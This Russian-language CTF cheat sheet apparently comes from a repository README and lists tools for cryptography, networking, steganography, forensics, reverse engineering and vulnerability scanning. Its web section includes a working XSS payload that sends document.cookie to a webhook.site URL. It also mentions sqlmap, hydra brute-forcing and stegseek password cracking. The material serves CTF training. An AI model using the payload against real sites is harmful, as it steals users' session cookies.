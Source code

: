 ###### РЕКОМЕНДУЮ СТАВИТЬ [КАЛИ ЛИНУКС](https://www.kali.org/) И ЗАРАНЕЕ СТАВИТЬ ВСЁ ИЗ ВАШЕЙ КАТЕГОРИИ

# Cryptography
- [quip quip](https://quipqiup.com/)
  - решалка криптограм которая стремиться к минимальной энропии(старается организовать слова)
- [cryptii](https://cryptii.com/)
  - многоуровневые шифрования/дешифрования
- [b64/32/url/hash/file en/de/coder](https://emn178.github.io/online-tools/base32_decode.html)
  - полезная штука
- [dcode (france)](https://www.dcode.fr/rot-13-cipher)
  - расшифровка всего
  - вбиваете в поиск шифр и оно откроет решалку данного шифра
  - умеет решать даже судоку)
- [crack station](https://crackstation.net/)
  - расшифровывает некоторые хеши
  - богатая база хешей(радужная таблица) 15 gb
- [hashes.com](https://hashes.com/en/decrypt/hash)
  - расшифровывает некоторые хеши
- [Hash identifier](https://www.kali.org/tools/hash-identifier/)
  - Проверка какой это хеш
  - [Online 1](https://www.tunnelsup.com/hash-analyzer/)
  - [Online 2](https://hashes.com/en/tools/hash_identifier)

# Network
- [wireshark](https://www.wireshark.org/#download)
  - в основном для загрузки pcap файлов содержащих кучу сетевых пакетов
  - внимательно читайте задание и ищите то что говорят
- [fiddler](https://www.telerik.com/download/fiddler-everywhere) 
  - подмена ответов запросов
- [burp suite](https://portswigger.net/burp/communitydownload)
  - подмена запросов и их отправка
  - и много других неизученых мною фич

# Web
#### XSS:
- Использовать webhook.site для возвратного получения данных(callback)
- <img src=x onerror=this.src='https://webhook.site/fad40d81-20a3-4ce9-9399-0c9a9a6e6a24/'+document.cookie;>
- В примере выше я отправляю на вебхук куки в качестве открытия страницы с названием куки

#### Extensions:
- шпоры по sql и тд
  - Firefox: https://addons.mozilla.org/en/firefox/addon/hacktools/ 
  - Chrome: https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi
  - ![img.png](img.png)

#### VPN:
- [windscribe](https://windscribe.com)
  - делаете аккаунт, затем в настройках аккаунта вводиться промокод "ПИЗДЕЦ" дает 30 гб
- [cloudflare warp](https://1.1.1.1/)
  - впн от cloudflare 
# Stenography
- Восстановление удаленных файлов
- Контейнеры 
  - Veracrypt, Truecrypt
- exiftool {имя_исполнительного_файла}
  - ищет метаданные
- Binwalk 
  - поиск исполняемых и других файлов в картинке
- grep -i "flag{"
  - поиск флага в прямую
- [dir binary search](python_tools/dir_binary_search.py)
  - в прямую ищет байты в директории рекурсивно
- [tineye](https://tineye.com/)
  - поиск по картинке
- [imagemagick](https://imagemagick.org/index.php)
  - манипуляция картинками
- [stegsolve.jar](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install)
  - часто решает задачу сразу
- [steghide](https://steghide.sourceforge.net/download.php)
  - чтобы скачать нужен ВПН
  - steghide --extract -sf {имя_файла}
  - попытка найти что-либо в файле
- [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html)
  - проверка на целостность картинки
- [zsteg](https://github.com/zed-0xff/zsteg)
  - поиск чего либо в PNG, BMP
- [smart deblur](http://smartdeblur.net/)
  - убирает размывание с фотографии
- [stegseek](https://github.com/RickdeJager/stegseek#releases)
  - перебирает все пароли 
  - [kali](https://www.kali.org/tools/stegcracker/)
- https://futureboy.us/stegano/decinput.html
- http://stylesuxx.github.io/steganography/
- https://www.mobilefish.com/services/steganography/steganography.php
- https://manytools.org/hacker-tools/steganography-encode-text-into-image/
- https://steganosaur.us/dissertation/tools/image
- https://georgeom.net/StegOnline

# Forensics
- Дампы памяти (.mem файлы) 
  - HxD Hex Editor 
    - редактор сырых данных
  - Volatility 
    - инструмент поиска и анализа инфы (ТОП)
  - Foremost 
    - поиск файлов из дампа


# Assembler
- file {имя_исполнительного_файла}
  - даёт информацию о расширении, подписи и формате
  - иногда организаторы могут дать бинарник, который окажется другим файлом, например картинкой
- strings -a {имя_исполнительного_файла}
  - ищет все строки в исп. фале
- base64
  - в интернете куча декодеров для этого шифра
  - часто используется
- [Ida Decompiler](https://out7.hex-rays.com/files/idafree77_windows.exe)
  - визуализация кода в виде графа
- [Assembler Reference](http://ref.x86asm.net/coder32.html#modrm_byte_16)
  - это сайт с инструкциями в ассемблере и их значениями в шестнадцатеричной системе счисления.
- [GDB Documentation](https://www.sourceware.org/gdb/documentation/)
  - мануал по gdb
- [Radare2](https://github.com/radareorg/radare2)
  - красивый gdb
- [BenEater](https://www.youtube.com/c/BenEater?app=desktop)
  - ютубер, объясняет ассемблер

# Vulnerability search
- [snyk-cli](https://docs.snyk.io/snyk-cli)
  - имбище(must have)
  - Ищет уязвимости в определенной папке.
  - Для тех заданий, где предоставлены исходники.
  - Даже если цель задания в другом, сканируйте код всё равно, может быть обходной путь.
- [sqlmap](https://sqlmap.org/)
  - Взлом sql и поиск уязвимостей в sql базе
- [thc-hydra](https://www.kali.org/tools/hydra/)
  - Bruteforce универсальный - thc-hydra
  - [Github](https://github.com/vanhauser-thc/thc-hydra)
- [Math.random() JS](https://www.youtube.com/watch?v=-h_rj2-HP2E)
  - взлом псевдо рандома в js
- [wappalayzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
  - получения технологий которые использует сайт
  <details>
    <summary>Картинка</summary>
    <img src="img_1.png">
  </details>
- [Insecure Deserialization Attack](https://www.youtube.com/watch?v=jwzeJU_62IQ)
  - атака на десиариазацию(восстановление обьектов из файла)
- [HTTP pollution](https://www.youtube.com/watch?v=QVZBl8yxVX0)
  - подмена параметров
- [XSS guide](https://www.youtube.com/watch?v=EoaDgUgS6QA)
  - полный разбор XXS(инъекция скрипта вместо текста)
- [Cross-Site Request Forgery](https://www.youtube.com/watch?v=eWEgUcHPle0)
  - получение куки через подмен получателя куки

# General
- [ctf-checklist](https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/)
- ![img_2.png](img_2.png)
  ###### [CTFCheatsheet.xmind](CTFCheatsheet.xmind)
